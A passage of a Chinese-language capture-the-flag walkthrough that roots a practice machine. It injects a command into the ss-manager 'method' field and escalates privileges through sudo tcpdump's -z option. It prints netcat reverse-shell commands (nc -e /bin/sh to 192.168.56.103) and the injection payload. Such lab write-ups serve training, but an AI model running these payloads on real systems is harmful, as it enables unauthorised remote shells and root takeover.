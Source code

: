 ```
[参考](https://github.com/shadowsocks/shadowsocks-libev/issues/1734)
```

ss-manager 是 Shadowsocks 的缩写

Shadowsocks-libev 是用于嵌入式的服务和安全 SOCKS5 作为代理，ss-manager 用于控制多个用户的 shadowsocks 服务器，并在需要时生成新服务器... 就是能创建新服务去利用...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOePhs3TQdVSUm8UBtKvwPic9h7MkzAaiaD0F8M7VbBVS1libIYlZzw1u7NlZ3w2mwGsuF0H4PFZzAlw/640?wx_fmt=png)

创建服务器....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOePhs3TQdVSUm8UBtKvwPicZI1WtOvnVzRq1xHUtbxxiazREbAtTceN2dIAVTgfH59IGT2fj3ZFNgg/640?wx_fmt=png)

```
add: {"server_port":8003, "password":"test", "method":"||nc -e /bin/sh 192.168.56.103 4444 ||"}
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOePhs3TQdVSUm8UBtKvwPicHiaGdZwnERx4XZa5NVgibwWMItwq4ZBWXlDaRcG5UN4q4NZNC9WicgC4A/640?wx_fmt=png)

进入 fireman 用户....

sudo -l 查看下有哪些可以提权的目录或者文件...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOePhs3TQdVSUm8UBtKvwPicXYUVNRHXKuyaEYXKjTfvYqTbUWOKqriaghia8Zho1c7s6ym0SRmW3sJg/640?wx_fmt=png)

存在 tcpdump，可以用于远程代码执行...

```
[参考](https://github.com/xapax/security/blob/master/privilege_escalation_-_linux.md)
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOePhs3TQdVSUm8UBtKvwPicLoVxfStyRRxfJUCOKguG6nxK6SW9Xf0icfQzYZicrhyvRtaHVQNLv7Mw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOePhs3TQdVSUm8UBtKvwPicUbtu7VmQicb44UPjrGAyQrrhIdQAPWpkCNV4c84g96Dqg7rQxnGcqbA/640?wx_fmt=png)

```
命令：echo "nc -e /bin/bash 192.168.56.103 1234" > dayu
命令：sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/dayu -Z root
```

将目录更改为 tmp，使用反向 netcat shell 创建了一个名为 dayu 的文件，将该文件的文件权限更改为 RWX，最后将 sudo 和 tcp dump 用于远程代码执行....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOePhs3TQdVSUm8UBtKvwPicqiagJiaAJtib1PCfA5o3H3j18icIgJWTCB1e1J39j1Fo6ibaxSNwvnibicHXA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOePhs3TQdVSUm8UBtKvwPicOicqa4aP8qwialgVN4XcZgzYSpX7701icEL6ic7FYokkGqmXXq5NWkcoZw/640?wx_fmt=png)

成功获取 root 和 flag 文件... 介绍说有两种方法可以获取...

![](https://mmbiz.qpic.cn/mmbiz_png/gBSJuVtWXPZE73MPxL1VoDjO3DFaxJA2MQpSSibwsXKVf4VIHh8S9fZXT8pq1ALE3hWEN22AaniaghxGrJqjEsxw/640?wx_fmt=png)

这边我回想了下，一路过来都是 Node.js--ss-manager--tcpdump 这条路过来的....

因为只开了 22 和 666 端口，目前还没想到第二种方法能渗透的.... 如果有大神能想到... 请留言给我，感谢！！一起学习，一起加油！！！

由于我们已经成功得到 root 权限 & 找到 flag.txt，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。
